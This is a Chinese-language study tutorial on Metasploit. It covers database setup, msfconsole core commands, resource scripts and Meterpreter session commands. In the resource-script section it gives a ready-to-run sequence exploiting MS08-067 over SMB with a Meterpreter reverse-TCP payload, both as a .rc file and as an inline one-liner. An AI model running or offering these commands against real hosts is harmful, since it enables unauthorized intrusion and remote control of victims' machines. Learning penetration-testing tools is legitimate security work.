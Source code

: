 # Metasploit

使用 Metasploit 兩個主流介面： ``Armitage``(GUI) 以及 ``MSFconsole``(command line)

  > P.S: 第三個主流介面 msfcli 在 2015 年 deprecated

## 透過 msfconsole 使用 Metasploit

1. 管理 Metasploit 資料庫
1. 管理 Session
1. 配置、啟動 Metasploit framework


啟動前必須先連上資料庫，可透過 ``ps -aux`` 來確認

```shell
service postgresql start
msfdb init
```

啟動 msf concole

```shell
msfconsole
```

在 msfconsole 中先確認是否成功連上資料庫

```shell
db_status
```

常用指令分為兩大類： `Core command` 以及 ``db backend command``

Core command:

```sh
> help # 指令幫助訊息，查看所有指令
> use [module] # 加載指定模組
> set [option] [value]
  # 在加載 module 的情形下，為 module 配置不同選項
  # 沒有 option 與 value 則會顯示已經配置的訊息資料
  # set payload [path-to-payload] 指定加載 payload
  # set RHOST 192.168.0.43 指定 Remote Host IP 位址

> options
  # 列出現在可以配置的選項，在 module 裡面的第一步就是看 options 說明書。
  # 如果不在任何模組之下，則會顯示 Global options
> run # 啟動攻擊模組, alias to exploit
> exploit # 啟動攻擊模組
> search [module] # 搜尋特定模組
> show # Global context 將顯示所有模組訊息
  > show auxiliary #秀出所有 auxiliary 模組
    # auxiliary 包含 scanners, DoS modules, fuzzers, and more...
  > show exploits # 秀出所有攻擊模組
  > show options
  > show payloads
  > show advanced # 進階 fine-tune 模組設定
  > show targets # 秀出該模組適合攻擊的 OS
> exit # 退出 msfconsole
```


```sh
  msf> search linux
```


## 將指令寫成腳本 .rc 透過 msfconsole 一次執行

直接鍵入 ``msfconsole`` 會進入 interactive 模式，你也可以先將指令寫成 ``resource script`` 後直接透過 msfconsole 執行。

```sh
  $ msfconsole --help # 秀出 command options

  ##############################
    Database options
      -M, --migration-path DIRECTORY   Specify a directory containing additional DB migrations
      -n, --no-database                Disable database support
      -y, --yaml PATH                  Specify a YAML file containing database settings

    Framework options
        -c FILE                          Load the specified configuration file
        -v, --version                    Show version

    Module options
            --defer-module-loads         Defer module loading unless explicitly asked.
        -m, --module-path DIRECTORY      An additional module path


    Console options:
        -a, --ask                        Ask before exiting Metasploit or accept 'exit -y'
        -L, --real-readline              Use the system Readline library instead of RbReadline
        -o, --output FILE                Output to the specified file
        -p, --plugin PLUGIN              Load a plugin on startup
        -q, --quiet                      Do not print the banner on startup
        -r, --resource FILE              Execute the specified resource file (- for stdin)
        -x, --execute-command COMMAND    Execute the specified string as console commands (use ; for multiples)
        -h, --help                       Show this message
  ##############################
```

先將指令寫成 ``temp.rc``：

```rc
  use exploit/windows/smb/ms08_067_netapi
  set RHOST [IP]
  set PAYLOAD windows/meterpreter/reverse_tcp
  set LHOST [IP]
  run
```

然後透過 ``-r`` 執行：

```sh
  msfconsole -r temp.rc
```

以上行為可透過 ``-x`` 一次 inline 寫完，等價為：

```sh
  msfconsole -x "use exploit/windows/smb/ms08_067_netapi; set RHOST [IP]; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST [IP]; run"
```

或是已經在 ``msfconsole`` 裡面時透過指令 **resource**:

```sh
  msf> resource temp.rc
```


## 控制 Meterpreter

Meterpreter 就是一個 payload, 在漏洞利用後必須執行的一支程式，讓你可以跟受害主機之間有一個溝通的管道來傳遞訊息，並做所有操作。

* help：查看帮助信息。
* background：允许用户在后台Meterpreter会话。
* download：允许用户从入侵主机上下载文件。
* upload：允许用户上传文件到入侵主机。
* execute：允许用户在入侵主机上执行命令。
* shell：允许用户在入侵主机上（仅是Windows主机）运行Windows shell命令。
* session -i：允许用户切换会话。

透過 ``show payloads`` 用來顯示所有可以使用的 payloads





## Reference

* [Metasploit Fundamentals](https://www.offensive-security.com/metasploit-unleashed/using-databases/)

* [Metasploit for Beginners](MetaSploit tutorial for beginners)

* [msfconsole core command](https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/)
